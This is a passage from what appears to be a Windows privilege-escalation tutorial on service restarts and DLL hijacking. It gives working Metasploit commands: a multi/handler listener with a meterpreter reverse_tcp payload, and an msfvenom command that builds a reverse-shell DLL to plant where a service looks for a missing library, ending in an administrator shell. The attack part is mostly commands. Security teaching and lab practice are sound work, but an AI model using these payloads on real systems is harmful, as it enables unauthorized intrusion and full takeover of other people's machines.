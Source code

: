 ```
reboot
```
or 
```
sc stop "Exploitme.exe"
```
```
sc start "Exploitme.exe"
```

And start your multi/handler listener to get system shell

```
use exploit/multi/handler
msf exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost <targetIP>
msf exploit(multi/handler) set lport <port>
msf exploit(multi/handler) exploit
```

## DLL Hijacking

Whenever an applications started in windows it look for DLL's(Dynamic link libraries) because it contains data, code, or resources needed for the running of applications.

Whenever application look need to load DLL, it will look for

* The directory from which the application is loaded
* C:\Windows\System32
* C:\Windows\System
* C:\Windows
* The current working directory
* Directories in the system PATH environment variable
* Directories in the user PATH environment variable

What if we replace our malicious DLL in the path, whenever application look for DLL, it will execute malicious payload DLL that will give us reverse shell.


First we have to identify case of a process in which an application look for executables using [process monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) tool


We got a service name 'Hijackme.exe' which is looking for hacker.dll

Lets exploit DLL hijacking

Create a dll payload using msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<AttackerIP> -f dll>hacker.dll
```
upload payload on target system and locate it on the dll way.

After that start multi/handler on attacker system and exploit.

Boom!!! 

You will get a shell as an administrator.
